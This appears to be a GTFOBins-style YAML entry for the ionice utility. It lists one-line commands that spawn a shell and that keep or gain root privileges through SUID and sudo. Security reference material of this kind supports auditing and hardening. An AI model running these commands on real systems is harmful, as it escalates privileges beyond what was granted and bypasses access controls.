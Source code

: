 ```yaml
---
functions:
  execute-interactive:
  - code: ionice /bin/sh
  suid-enabled:
  - code: "./ionice /bin/sh -p"
  sudo-enabled:
  - code: sudo ionice /bin/sh
---
```


